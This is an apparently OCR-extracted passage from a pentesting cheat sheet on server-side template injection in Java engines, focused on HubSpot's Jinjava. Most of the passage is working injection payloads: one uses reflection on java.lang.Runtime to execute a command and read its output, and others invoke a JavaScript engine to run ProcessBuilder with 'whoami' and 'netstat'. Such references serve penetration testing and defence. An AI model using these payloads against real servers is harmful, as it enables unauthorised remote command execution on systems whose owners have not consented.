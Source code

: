​

​

​

​

​

{% set bytes = (1).TYPE

.forName('java.lang.Runtime')

.methods[6]

.invoke(null,null)

.exec(cmd)

.inputStream

.readAllBytes() %}

{{ (1).TYPE

.forName('java.lang.String')

.constructors[0]

.newInstance(([bytes]).toArray()) }}

## 

Jinjava (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinjava-java)

{{'a'.toUpperCase()}} would result in 'A'

{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)​

**Jinjava - Command execution**

Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)​

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

​

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

​

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

​

